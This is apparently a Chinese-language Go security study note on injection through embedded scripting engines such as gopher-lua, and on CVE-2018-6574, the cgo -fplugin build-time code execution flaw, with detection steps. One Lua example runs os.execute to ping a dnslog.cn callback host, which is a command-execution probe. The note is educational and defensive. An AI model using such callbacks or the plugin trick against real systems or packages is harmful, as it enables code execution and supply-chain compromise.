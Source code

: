 go语言时编译语言，运行时不存在代码注入，但在编译时曾存在任意代码执行漏洞cve-2018-6574

## 内嵌脚本工具导致的注入

### 简介

go热门内嵌脚本：

| **Project Name**                                     | **Stars** | **Forks** | **Description**                                              |
| ---------------------------------------------------- | --------- | --------- | ------------------------------------------------------------ |
| [anko](https://github.com/mattn/anko)                | 998       | 87        | Anko is a scriptable interpreter written in Go.              |
| [gopher-lua](https://github.com/yuin/gopher-lua)     | 3400      | 369       | GopherLua: VM and compiler for Lua in Go                     |
| [go-python](https://github.com/sbinet/go-python)     | 1000      | 112       | naive go bindings to the CPython C-API                       |
| [go-php](https://github.com/deuill/go-php)           | 734       | 86        | PHP bindings for the Go programming language (Golang)        |
| [go-duktape](https://github.com/olebedev/go-duktape) | 701       | 79        | Duktape JavaScript engine bindings for Go                    |
| [go-lua](https://github.com/Shopify/go-lua)          | 1800      | 136       | A Lua VM in Go                                               |
| [golua](https://github.com/aarzilli/golua)           | 471       | 162       | Go bindings for Lua C API - in progress                      |
| [gisp](https://github.com/jcla1/gisp)                | 437       | 324       | Simple LISP in Go                                            |
| [v8](https://github.com/augustoroman/v8)             | 315       | 63        | A Go API for the V8 javascript engine.                       |
| [agora](https://github.com/mna/agora)                | 323       | 36        | a dynamically typed, garbage collected, embeddable programming language built with Go |
| [purl](https://github.com/ian-kent/purl)             | 29        | 2         | Perl, but fluffy like a cat!                                 |

go内嵌lua脚本样列：

```go
func main() {
	L := lua.NewState()
	defer L.Close()
	if err := L.DoString(`print("hello world.")`); err != nil {
		panic(err)
	}
	if err := L.DoString(`os.execute("ping -c 3 pg9e5n.dnslog.cn")`); err != nil {
		panic(err)
	}
}
```

## cve-2018-6574

### 影响版本

```go
before 1.8.7
Go 1.9.x before 1.9.4
Go 1.10 pre-releases before Go 1.10rc2  
```

### 漏洞原理

Go语言允许与C语言互操作，即在Go语言中直接使用C代码。代码可以通过go build或go run来编译和执行，但实际编译过程中，go调用了名为cgo的工具，cgo会识别和读取Go源文件中的C元素，并将其提取后交给C编译器编译，最后Go源码编译后的目标文件链接成一个可执行程序。

gcc/clang这类的C编译器有`CFLAGS，LDFLAGS`等编译开关让开发者在编译时指定设置。cgo作为一个gcc的封装，自然也支持这类的编译开关选项。而gcc编译时，可以通过`-fplugin`指定额外的插件，gcc在编译时会加载这个插件。

因此，除了在Go源码文件中可以嵌入了C代码之外，还可以指定通过`#cgo CFLAGS`指定gcc编译时的恶意插件。cgo在解析到CFLAGS关键字时，会将后面的编译选项传递给gcc。`-fplugin`指定额外的插件，可为任意的动态库，因此就获得了代码的执行权限。

这类漏洞本地执行不会有什么问题，因为自己不会引入恶意代码。但是使用`go get`导入恶意远程包的时候就存在问题。

```go
package main
import "C"
import "unsafe"

/*
#include <stdio.h>
#include <stdlib.h>
void c_print(char *str) {
printf("%s\n", str);
}
*/
import "C"   //import “C” 必须单起一行，并且紧跟在注释行之后

func main() {
    s := "Hello Cgo"
    cs := C.CString(s)//字符串映射
    C.c_print(cs)//调用C函数
    defer C.free(unsafe.Pointer(cs))//释放内存
}
```

漏洞修复：

Go官方在最新版本中，加强了对编译和链接环节的检查过滤； 只允许指定的编译链接选项代入gcc执行，其他未经允许的都会被禁止。

## 检测

- 使用`go version`查看go版本，如果版本在`before 1.8.7、Go 1.9.x before 1.9.4、Go 1.10 pre-releases before Go 1.10rc2`则存在问题。
- 搜索代码import的包，查看是否含有如下关键字`mattn/anko/|yuin/gopher-lua|sbinet/go-python|deuill/go-php|olebedev/go-duktape|Shopify/go-lua|/golua/lua|jcla1/gisp|augustoroman/v8|mna/agora|ian-kent/purl`，如果存在，进一步判断是否调用外部可控的代码执行命令。

参考：https://github.com/he1m4n6a/Go_Security_Study/tree/master/%E7%BC%96%E7%A0%81%E5%AE%89%E5%85%A8/WEB%E5%AE%89%E5%85%A8#web